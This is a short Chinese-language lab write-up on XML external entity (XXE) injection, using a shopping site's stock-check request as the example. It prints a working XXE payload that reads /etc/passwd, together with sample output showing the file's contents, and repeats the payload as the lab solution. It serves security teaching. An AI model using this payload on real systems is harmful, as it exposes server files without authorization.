

# 知识点
要执行从服务器文件系统检索任意文件的 XXE 注入攻击，您需要通过两种方式修改提交的 XML：

- 引入（或编辑）一个 DOCTYPE 元素，该元素定义包含文件路径的外部实体。
- 编辑应用程序响应中返回的 XML 中的数据值，以使用定义的外部实体。

例如，假设购物应用程序通过向服务器提交以下 XML 来检查产品的库存水平：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
该应用程序对 XXE 攻击没有特别的防御，因此您可以利用 XXE 漏洞通过提交以下 XXE 有效负载来检索 /etc/passwd 文件
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
这个 XXE payload定义了一个外部实体 &xxe;其值是 /etc/passwd 文件的内容，并使用 productId 值中的实体。这会导致应用程序的响应包含文件的内容：
```xml
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
# 思路
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<stockCheck><productId>
&xxe;
</productId><storeId>1</storeId></stockCheck>
```

